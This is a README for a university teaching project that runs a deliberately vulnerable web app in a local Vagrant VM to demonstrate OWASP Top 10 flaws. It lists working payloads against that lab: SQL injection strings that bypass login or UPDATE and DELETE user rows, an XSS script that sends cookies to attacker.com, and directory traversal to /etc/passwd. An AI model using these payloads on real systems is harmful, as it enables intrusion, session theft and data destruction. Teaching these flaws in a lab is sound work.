# zcu_webapp_security_demo
Small education project demonstrating typical security vulnerabilities in web application.
Created for University of West Bohemia.

## Installation
* Install VirtualBox
* Install [Vagrant](https://docs.vagrantup.com/v2/installation/index.html "Vagrant docs - Istallation")
* Install Vagrant plugin for VirtualBox guest additions
```bash
vagrant plugin install vagrant-vbguest
```
* checkout this repository
```bash
> git clone git@github.com:veny/zcu_webapp_security_demo.git
```
* run vagrant box
```bash
> cd zcu_webapp_security_demo
> vagrant up
```
* for the first time it will take about 15 minutes till vagrant is ready (depending on your internet connection)
* in browser go to http://192.168.33.10/zcu/index.php

## OWASP top 10 examples
* https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project

### Injection
* put that as password (empty username)
```sql
' OR id='2
```
* or even worst
```sql
'; UPDATE  user SET password='123
'; DELETE FROM user WHERE id='8
```

### XSS
* put following text as notice
```html
<b onmouseup=alert("XSS!")>click me!</b>
```
* or even worst
```html
"><script>document.location= "http://www.attacker.com/cgi-bin/cookie.cgi?foo="+document.cookie</script>"
```

### Broken Session Management
* application with URL rewriting
* no logout and session timeout

### Sensitive Data Exposure
* to monitor HTTP traffic
```bash
root> tcpdump -A -s 0 'tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)'
```

### Cross-Site Request Forgery
* try this: http://192.168.33.10/zcu/index.php?action=create&notice=pokus


### Security Misconfiguration
* Directory listing is not disabled on your server
  * try this: http://192.168.33.10/zcu/list
  * selinux (setenforce 0, setenforce 1)
* Directory traversal
  * try this: http://192.168.33.10/zcu/list/get_file.php?file=../index.php
  * or this: http://192.168.33.10/zcu/list/get_file.php?file=../../../../etc/passwd


## Where to go next
See https://www.owasp.org/index.php/Category:OWASP_Top_Ten_2013_Project
____

### TODOs:
- try to generally fix problem with vboxsf - workaround described in Troubleshooting A)


### Troubleshooting (Fedora 23)
 - 1) Failed to mount folders in Linux guest. This is usually because the "vboxsf" file system is not available. Please verify that the guest additions are properly installed in the guest and  can work properly. The command attempted was:
  - mount -t vboxsf -o uid=`id -u vagrant`,gid=`getent group vagrant | cut -d: -f3` opt_zcu_demo /opt/zcu_demo
  - mount -t vboxsf -o uid=`id -u vagrant`,gid=`id -g vagrant` opt_zcu_demo /opt/zcu_demo
  - The error output from the last command was:
    - /sbin/mount.vboxsf: mounting failed with the error: No such device
  - Problem description and solution described here: https://github.com/dotless-de/vagrant-vbguest/issues/170
   - shortly: vagrant ssh, sudo systemctl enable vboxadd, service vboxadd start, vagrant reload, vagrant provision
 - 2) Building the main Guest Additions module[FAILED] (+ following errors)
   - shortly: vagrant ssh, sudo yum update, Ctrl+D, vagrant reload
